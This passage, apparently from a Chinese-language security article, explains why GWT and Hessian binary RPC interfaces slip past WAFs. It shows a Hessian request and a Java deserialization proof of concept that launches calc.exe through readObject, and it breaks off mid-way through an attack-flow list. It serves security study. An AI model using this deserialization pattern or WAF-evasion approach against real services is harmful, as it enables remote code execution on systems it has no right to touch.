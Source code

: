 #### 2.3.2 自带绕WAF光环  
  
GWT协议特点：  
1. 二进制数据传输  
  
1. 自定义序列化格式  
  
1. 非标准参数编码  
  
**绕过原理**  
：传统WAF无法解析GWT专有协议格式，导致检测失效。  
### 2.4 HESSIAN接口安全分析  
#### 2.4.1 未授权访问风险  
  
Hessian协议识别：  
```
POST /UserService.hessian HTTP/1.1
Content-Type: application/x-hessian

```  
  
二进制数据流特征：  
```
C 02 00 6D 10 67 65 74 55 73 65 72 ...

```  
#### 2.4.2 自带绕WAF光环  
  
**绕过原理**  
：  
1. 二进制协议难以解析  
  
1. 非文本数据无法正则匹配  
  
1. 自定义序列化格式  
  
#### 2.4.3 自身未修复漏洞  
  
Hessian反序列化漏洞利用：  
```
// 恶意序列化对象构造
public class Exploit implements Serializable {
    private void readObject(ObjectInputStream in) {
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (Exception e) {}
    }
}

```  
  
**攻击流程**  
：  
1. 生成恶意序列化数据  
  
1. 通过Hessian接口发送  
  